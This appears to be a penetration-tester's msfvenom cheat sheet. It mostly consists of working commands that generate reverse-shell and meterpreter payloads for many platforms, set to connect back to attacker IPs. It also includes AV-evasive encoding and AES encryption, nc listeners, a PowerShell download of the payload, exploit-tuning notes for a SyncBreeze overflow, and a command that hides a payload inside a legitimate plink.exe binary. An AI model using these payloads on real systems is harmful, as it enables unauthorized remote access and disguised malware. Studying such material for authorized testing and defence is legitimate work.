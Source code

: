 ### Msfvenom
msfvenom --list encrypt  
msfvenom --list encoders  
msfvenom --list payloads  
msfvenom --list platforms  
msfvenom --list formats  

msfvenom -p linux/x86/shell_reverse_tcp --list-options  

msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.48.2 LPORT=443 -f elf > shell.elf && nc -lvnp 443 && python -c 'import pty;pty.spawn("/bin/bash")'; && export TERM=xterm  

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.48.2 LPORT=443 -f exe > windows_reverse.exe && powershell && Invoke-WebRequest -Uri http://192.168.48.2/windows_reverse.exe -OutFile windows_reverse.exe && nc -lvnp 443  

msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=192.168.119.190 LPORT=443 -f py -v shellcode -e x86/shikata_ga_nai -b "\x00\x0a\x1a\x2f\x95\xa7"  

msfvenom -a x86 -p windows/exec cmd=cmd.exe -e x86/shikata_ga_nai -f c -n 10 -b "\x00\x0a\x0d"(non-network-based command execution payloads)(it has service handles the string to raw bytes conversion)  

msfvenom -a x86 -p windows/exec cmd=cmd.exe -e x86/shikata_ga_nai -f raw -n 10 -b "\x00\x0a\x0d"(non-network-based command execution payloads)(it has no service handles the string to raw bytes conversion)  

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 --encrypt aes256 --encrypt-key fdgdgj93jf43uj983uf498f43 -f exe -o /var/www/html/met64_aes.exe  

Linux：
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

Windows:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

PHP:
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

ASP:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

JSP:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp

Python:
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

Bash:
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

Perl:
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl

### Improving the Exploit
>The default exit method of Metasploit shellcode following its execution is the ExitProcess API. This exit method will shut down the whole web service process when the reverse shell is terminated, effectively killing the SyncBreeze service and causing it to crash.

>If the program we are exploiting is a threaded application, and in this case it is, we can try to avoid crashing the service completely by using the ExitThread API instead, which will only terminate the affected thread of the program. This will make our exploit work without interrupting the usual operation of the SyncBreeze server, and will allow us to repeatedly exploit the server and exit the shell without bringing down the service.

>To instruct msfvenom to use the ExitThread method during shellcode generation, we can use the EXITFUNC=thread option as shown in the command below:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 EXITFUNC=thread(this parameter can't be put behind all other parameters-tested) -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"  
```
### staged vs stageless
```
windows/shell_reverse_tcp - Connect back to attacker and spawn a command shell (stageless)
windows/shell/reverse_tcp - Connect back to attacker, Spawn cmd shell (staged)
```
>Staged payloads begin the execution process with a small portion of the code that doesn't contain the full payload.Instead, it initiates the payload download from the attacking host after it begins execution. 
The benefit of a staged payload is that the size of the file is smaller. This may help with upload limitations on a target host. We will not be working with staged payloads, since that would require us to work with Metasploit.Payloads separated by an underscore (_) are stageless payloads.

>Stageless payloads contain the full payload from MSFvenom and do not require any additional resources from the attacker after initial execution. These payloads are larger when they are produced but often don't require the use of Metasploit to obtain shell access.

### NOP sled(verified less than 5 nops will reach page fault,as long as >=5, it is fine)
>As with other GetPC routines, those used by shikata_ga_nai have an unfortunate side-effect of writing some data at and around the top of the stack. 
This eventually mangles at least a couple of bytes close to the address pointed at by the ESP register. Unfortunately, this small change on the stack is a problem for us because the decoder starts exactly at the address pointed to by the ESP register.

>In short, the GetPC routine execution ends up changing a few bytes of the decoder itself (and potentially the encoded shellcode), which eventually fails the decoding process and crashes the target process.

>One method to avoid this issue is to adjust ESP backwards, making use of assembly instructions such as DEC ESP, SUB ESP, 0xXX, before executing the decoder. Alternatively, we could create a wide "landing pad" for our JMP ESP, such that when execution lands anywhere on this pad, it will continue on to our payload. 
This may sound complicated, but we simply precede our payload with a series of No Operation (or NOP) instructions, which have an opcode value of 0x90. As the name suggests, these instructions do nothing, and simply pass execution to the next instruction. 
Used in this way, these instructions, also defined as a NOP sled or NOP slide, will let the CPU "slide" through the NOPs until the payload is reached.In both cases, by the time the execution reaches the shellcode decoder, the stack pointer points far enough away from it so as to not corrupt the shellcode when the GetPC routine overwrites a few bytes on the stack.

### inject a payload into an existing PE file
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.118.2 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
```
